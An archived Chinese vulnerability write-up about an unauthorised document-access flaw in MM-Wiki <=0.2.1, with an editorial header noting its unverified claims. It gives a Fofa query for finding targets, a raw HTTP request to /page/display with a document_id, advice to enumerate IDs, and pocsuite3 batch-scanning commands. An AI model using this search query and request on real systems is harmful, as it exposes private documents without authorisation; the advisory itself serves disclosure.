



# MM-Wiki display document_id文档访问控制

## 条目说明

- 对象与具体问题：MM-Wiki；display document_id文档访问控制
- 版本、配置及部署条件：<=0.2.1声明；文档权限配置待证
- 认证与权限前提：无Cookie样例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 正常显示某document_id不能直接证明越权，须私密/无权限对照与实际内容
- 枚举全站文档是额外影响需授权边界证据；脚本需公众号回复未入库
- 厂商仓库主页不是具体补丁，去邀请码广告

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

原创 BeiZhe  SheYin   2024-04-27 09:00  
  
**免责声明：**  
本公众号的技术文章来仅供参考，如需转载，请联系公众号。  
  
未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作，  
如因此产生的一切不良后果与文章作者和本公众号无关。  
本文所提供的工具仅用于学习。  
  
**关注公众号回复**  
**edusrc**  
**获**  
**取邀请码**  
  
0x01 前言  
  
  
MM-Wiki 是一个轻量级的企业知识分享与团队协同软件，可用于快速构建企业 Wiki 和团队知识分享平台。部署方便，使用简单，帮助团队构建一个信息共享、文档管理的协作环境。系统存在未授权访问漏洞，攻击者可以未授权获取文档信息。  
  
  
  
  
  
  
  
  
  
  
0x02 影响平台  
```
MM-Wiki <=0.2.1
```  
  
0x03 漏洞复现  
```
Fofa: header="mmwikissid"
```  
  
首页  
  
  
  
构造payload，发送数据包  
```http
GET /page/display?document_id=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close


```  
  
遍历document_id获取文档  
  
  
  
  
  
0x04 修复建议  
```
关注厂商更新产品：
https://github.com/phachon/mm-wiki
```  
  
0x05 参考链接  
```
https://github.com/phachon/mm-wiki
```  
  
  
关注公众号回复**mm-wiki-wsq**  
获取Pocsuite框架POC  
  
使用方法：pocsuite -r mm-wiki-wsq.py -u [url]  
```
pocsuite3安装(python3环境)
pip3 install pocsuite3
设置代理
pocsuite -r POC.py -u [url] --proxy http://IP:PORT
批量验证
pocsuite -r POC.py -f [file.txt]
```  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
